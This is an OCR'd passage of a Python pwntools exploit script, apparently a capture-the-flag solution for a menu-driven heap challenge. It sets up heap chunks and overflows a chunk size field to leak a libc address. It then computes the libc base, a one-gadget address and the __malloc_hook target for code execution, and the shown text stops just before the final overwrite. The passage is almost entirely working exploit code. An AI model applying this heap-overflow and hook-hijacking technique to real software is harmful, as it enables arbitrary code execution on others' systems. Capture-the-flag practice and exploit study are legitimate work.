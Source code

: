 p.sendline("2")

p.recvuntil("sell?\n")

p.sendline(str(idx))

p.recvuntil("choice:\n")

def read(idx):

p.sendline("3")

p.recvuntil("sell?\n")

p.sendline(str(idx))

data = p.recvuntil("choice:\n")

return data

add("1234567\n", 0, "a\n")

for i in range(4):

add("12345678\n", 0x50, "a\n")

add("aaaadddd\n", 0, "a\n") #7

add("bbbbcccc\n", 0x40, "a\n") #8

add("railser\n", 0, "b\n")

add("ddaa\n", 0x50, "b\n")

add("ddaa\n", 0x20, "b\n")

add("ddaa\n", 0x30, "b\n")

add("ddaa\n", 0x40, "b\n")

add("ddaa\n", 0x50, "b\n")

sell(0)

add("trytry\n", 0, "a" * 24 + p64(0xc1)+"\n") #overflow

sell(1)

add("a" * 16 + p64(0x6e)+"\n", 20, "x"*8+"\n")

data = read(1)

libc_addr = data.split("x"*8)[1][:6]

libc = u64(libc_addr + "\0\0") - 0x3c4c28

print hex(libc)

one = libc + 0x4526a

mallochook = libc + 0x3c4b10 - 0x10

target = libc + 0x3c4b38

#gogo
